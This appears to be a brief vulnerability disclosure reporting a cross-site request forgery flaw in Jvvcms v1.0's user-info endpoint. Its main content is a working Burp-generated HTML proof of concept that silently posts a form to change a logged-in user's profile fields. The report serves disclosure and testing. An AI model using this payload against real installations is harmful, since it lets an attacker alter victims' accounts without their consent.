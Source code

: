 ### traget

https://www.jvvcms.com/



Jvvcms v1.0 was found to contain Cross Site Request Forgery (CSRF) through component/system/core/sysUser/userInfo

![image-20240504214454098](/Users/apple/Library/Application Support/typora-user-images/image-20240504214454098.png)

Poc

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/system/core/sysUser/userInfo" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="avatar" value="https&#58;&#47;&#47;img&#46;jvvcms&#46;com&#47;FiW2agVN24vYDPcWwOl8JQMQEDSg" />
      <input type="hidden" name="realName" value="1" />
      <input type="hidden" name="email" value="test&#64;1622&#46;com" />
      <input type="hidden" name="remark" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![image-20240504215044265](/Users/apple/Library/Application Support/typora-user-images/image-20240504215044265.png)

Successed

![image-20240504214950560](/Users/apple/Library/Application Support/typora-user-images/image-20240504214950560.png)

